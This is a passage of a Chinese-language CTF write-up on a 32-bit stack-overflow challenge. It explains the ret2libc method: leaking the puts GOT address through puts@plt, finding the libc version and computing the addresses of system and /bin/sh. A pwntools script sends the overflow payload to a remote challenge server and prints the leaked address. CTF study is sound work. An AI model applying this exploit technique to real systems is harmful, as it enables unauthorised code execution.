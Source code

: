 先`checksec`一下

![](https://img-blog.csdnimg.cn/20201005131216747.png#pic_center)

32bit 程序
IDA分析
先看main函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005131301855.png#pic_center)

没有什么线索，再进pwnme函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005131359321.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005131425904.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

发现存在一个栈溢出
由于找不到system函数的地址，所以

> 涉及到plt表和got表
程序执行后，plt表里是got表的地址，got表是函数的真实地址
程序还未执行时，got表里还是plt表的地址
我们需要泄漏got表里的地址，由于开启了ASLR，本地和远程的地址不一样
但也只是针对于地址中间位进行随机，最低的12位并不会发生改变
也就是我们需要获取到远程环境的函数的真实地址
进而判断libc的版本，计算泄漏的函数got表的地址与system的偏移，然后获取到system函数的真实地址，进而计算system函数与/bin/sh的偏移，最终getshell
所以我们首先exp的构造
首先栈溢出，利用puts函数的plt表的地址，泄漏puts函数的got表中的函数的真实地址,然后返回地址填写main函数重新跳转回来

exp：

```python
from pwn import *
#context.log_level = 'debug'

p = remote('111.231.70.44',28063)
#p = process('./stack1')

elf = ELF('./stack1')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

payload = "A"*13 + p32(puts_plt) + p32(main_addr) + p32(puts_got)

p.sendline(payload)

p.recvuntil('\n\n')

get_addr = u32(p.recv(4))

print(hex(get_addr))
```

